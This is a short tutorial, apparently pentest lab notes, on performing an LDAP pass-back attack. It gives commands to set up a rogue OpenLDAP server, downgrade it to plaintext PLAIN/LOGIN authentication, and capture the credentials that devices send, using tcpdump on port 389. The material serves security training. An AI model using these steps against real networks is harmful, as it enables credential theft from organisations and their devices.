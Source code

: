 ## Performing an LDAP Pass-back

>> Use the following command to install OpenLDAP which will be used later to create
a rouge LDAP server.

`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`

>> Then configure your own rogue LDAP server
`sudo dpkg-reconfigure -p low slapd`

Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. Use the ldif file to patch your LDAP server.

`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

Then verify that our rogue LDAP server's configuration has been applied using the following command:

`ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms`

Once Configured correctly, run tcpdump on the interface connected to the network, tun0 in my case, by the following command:

```shell
sudo tcpdump -SX -i **interface** tcp port 389
```

